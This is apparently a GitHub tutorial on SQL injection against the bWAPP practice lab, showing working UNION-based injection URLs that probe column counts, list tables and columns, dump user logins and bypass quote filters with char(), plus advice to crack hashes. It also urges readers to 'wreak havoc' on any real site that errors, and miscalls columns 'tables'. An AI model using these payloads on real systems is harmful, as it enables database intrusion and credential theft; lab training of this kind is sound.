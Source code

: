 #SQL Injection
Structured Query Language (SQL) is used by many developers to insert and retrieve information from a common relational database. Whenever you see a website that does more than just display static information (i.e. letting users make posts or create accounts) it is most likely using a database. Most Wordpress sites run on SQL databases. The standard SQL command looks like this:
```sql
select * users where name='Simeon'
```
This sql statement would simply pull my account information within a web application. In a web application, the developer might dynamically generate a sql statement based on the user input. 

Suppose the developer wanted to select users based on your input, the sql statement might look like this:
```sql
select * users where name='+[NAME]+'
```
The problem with this is that you might try to enter a value to break that sql statement or use it to extract more information from the database than you are entitled to (usernames, passwords, ssn numbers, etc...).

Let's start with the bwapp SQL Injection (Search/GET) exercise.

You should begin by playing around with the search box and entering various values to see what happens. If you simply press enter, all the movies are returned. However, if you enter a single quote ', you get the following error
```
Error: You have an error in your SQL syntax; check the manual that corresponds to your
MySQL server version for the right syntax to use near '%'' at line 1
```
This is because you have broken the dynamic sql statement was supposed to be generated from your input. We can assume the SQL statement looked something like this:
```
select * from movie where title=' + [YOUR INPUT] + '
```
I can tell by looking at the url ;). By inputing a single quote, or anything followed by a single quote, you break the sql statement because it now has too many quotes. Suppose you entered "iron man'", then the resulting sql statement would be:
```
select * from movie where title='iron man''
```
That's one quote too many! And sql being picky with syntax has no idea how to interpret that. If you ever get this result on any website, you are clear to wreak havoc (at your own risk, of course).
 
For this next section, we'll switch from using the input field to messing with the url of the page. This will work because the input is being submitted though a GET request. Go ahead and give it a try! Instead of searching using the input box, just replace everything after the "?title=" in the url with your search term. You should get the same results as using the search box. 

###First, we'll try to guess how many tables are in the database!

We can achieve this using sql's ORDER BY command. You can use it like so:
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' ORDER BY 99-- -
```
First we should recognize that the sql command outputed from like probably looks like:
```
select * from movie where title='1' ORDER BY 99-- -
```
The "-- " is the SQL syntax for commenting. We want to negate anything that comes after our input so we can be sure about the command's behavior. 

You should get an error from the command above. Since we will always get an error if we order by more than the number of tables that exist, we can keep trying it with a small number until we no longer get an error. At that point we will know how many tables exist in the database. 

If you order order by any number less than 7, you should no longer have an error. Instead, it should say "No movies were found!". Great! Now we can use "union select" command to extract information from other tables. The union select injection only works if we know exactly how many tables exist. It works as follows:
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,2,3,4,5,6,7-- -
```
In this injection, each of the numbers represents a table in the database. If this works, we can replace some of the values to get information about the actual tables. We can use the following to get the of the database:
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,@@version,3,4,5,6,7-- -
```
If you google the resulting version, you can learn more about the database's mechanism and vulnerabilities making your hack job a whole lot easier. 

You can also grab the table names in this manner:
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,table_name,3,4,5,6,7 from
information_schema.tables-- -
```
Note that most of these tables are autogenerated. The user generated tables appear to be "users", "blog", "heroes", "movies", "login". We can probably get some valuable information from these tables. You can similarly grab the column names. Although they aren't labeled by table, you can probably guess which table they belong to. 
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from
information_schema.columns-- -
```
Now if we actually wanted to know, we could simply use a "where" condition to filter these columns.
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from
information_schema.columns where table_name="users"-- -
```
Now for the exciting part: we can go ahead steal the usernames and passwords
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,login,3,4,5,6,7 
from users-- -

http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,login,3,4,5,6,7 
from users-- -
```
Once you get the hash of the password, you can simple google it to find to clear text value if it is a simple password. If if is more complicated and a simple search doesn't find it, you can use a hash cracker like [John the Ripper](http://www.openwall.com/john/) 

###Bonus!
Suppose we have a sensible developer who eliminates the use of quotes and special characters in the input (because she knows about people like us). We can cheat by using the "char" function to convert our word character by character from numberical values to their ascii representation. You can either use and ascii table or an [ascii to text converter](http://www.unit-conversion.info/texttools/ascii/) to get the value of each character, and have the browser interpret the result using the "char" function. The two commands below should yield the same results.
```
http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from
information_schema.columns where table_name=char(117,115,101,114,115)-- -

http://192.168.1.250/bWAPP/sqli_1.php?title=1' union select 1,column_name,3,4,5,6,7 from
information_schema.columns where table_name="users"-- -
```

